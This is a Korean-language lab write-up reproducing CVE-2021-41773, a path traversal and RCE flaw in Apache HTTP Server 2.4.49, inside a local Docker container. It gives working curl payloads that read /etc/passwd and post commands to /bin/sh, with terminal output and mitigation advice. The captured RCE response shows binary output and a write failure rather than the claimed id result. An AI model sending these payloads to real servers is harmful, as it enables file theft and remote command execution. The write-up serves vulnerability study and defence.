


#취약점 요약
CVE-ID: CVE-2021-41773
유형: Path Traversal, RCE
Apache HTTP Server 2.4.49 버전의 경로 정규화 과정에서 발생한 결함으로, URI 경로 내의 ..패턴이 필터링되지 않아 웹 루트 디렉토리 외부의 파일에 접근이 가능함
mod_cgi 모듈이 활성화된 환경에서는 이를 악용해서 시스템 쉘 /bin/sh 을 호출함으로써 원격 코드 실행인 RCE가 가능함.

#환경 구성
[Container 환경]
- Base OS: Debian Bullseye (slim)
- Web Server: Apache 2.4.49 (소스 코드 직접 컴파일)
- mod_cgi: 활성화 (--enable-cgi)
- Docker Port Mapping: 8080:80
httpd.conf 내 mod_cgi 로드 및 ScriptAlias /cgi-bin/ 디렉토리에 Options +ExecCGI 설정 추가를 통해 CGI 환경 강제 활성화

[Host 환경 (참고)]
- Ubuntu 24.04.4 + VMware

#취약 조건
Apache 서버 버전이 2.4.49일 것
httpd.conf 설정에서 cgi-bin 디렉토리에 CGI 실행 권한(ExecCGI)이 부여되어 있을 것
웹 서버가 외부 경로(웹 루트 상위 디렉토리)에 접근할 수 있도록 경로 순회 (..) 문자가 필터링 되지 않을 것

#재현 절차
cve-2021-41773 디렉토리 만들어서 취약점 환경 구성
docker-compose up -d –build 명령어 실행해서 Apache 2.4.49서버와 취약한 CGI 환경을 포함한 도커 컨테이너를 가동
curl -I http://localhost:8080 명령어를 사용해서 서버 버전과 CGI 모드가 정상적으로 활성화되었는지 확인
경로 순회하는 방법인 .%2e/를 포함한 URL을 만들어서 curl 명령어로 서버에 요청 전송
/etc/passwd 파일 읽기 및 id 명령어를 통한 시스템 권한 확인

#PoC 코드
- 시스템 파일 읽기 (Path traversal)
curl -v --path-as-is http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

- 원격 코드 실행 (RCE)
curl -v --path-as-is http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh -d "echo; id"

#실행 결과

경로 순회(`.%2e/`)를 통해 `/etc/passwd` 파일을 탈취한 화면입니다.

RCE(`id` 명령어)를 통해 시스템 권한을 확인한 화면입니다.

tf@tf-VMware-Virtual-Platform:~/kr-vulhub/cve-2021-41773$ curl -v --path-as-is http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 12 Jul 2026 09:08:21 GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Tue, 23 Jun 2026 00:00:00 GMT
< ETag: "39a-654e070ac2000"
< Accept-Ranges: bytes
< Content-Length: 922
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host localhost left intact

tf@tf-VMware-Virtual-Platform:~/kr-vulhub/cve-2021-41773$ curl -v --path-as-is http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh -d "echo; id"
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 8
> Content-Type: application/x-www-form-urlencoded
> 
< HTTP/1.1 200 OK
< Date: Sun, 12 Jul 2026 09:08:50 GMT
< Server: Apache/2.4.49 (Unix)
< Last-Modified: Thu, 10 Dec 2020 13:23:19 GMT
< ETag: "1ea78-5b61c14459fc0"
< Accept-Ranges: bytes
< Content-Length: 125560
< 
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
* Failure writing output to destination
* Closing connection

#대응 방안
취약점이 패치된 최신 버전의 Apache HTTP Server(2.4.50 이상)로 즉시 업데이트를 수행
http.conf 내에서 Require all denied를 사용해서 웹 루트 외부 디렉토리에 대한 접근을 철저히 차단
불필요한 CGI 실행 권한 (ExecCGI)을 제거해서 RCE 공격 벡터를 최소화
웹 애플리케이션 방화벽 (WAF)를 통해 .. 과 같은 경로 순회 문자열이 포함된 요청을 차단

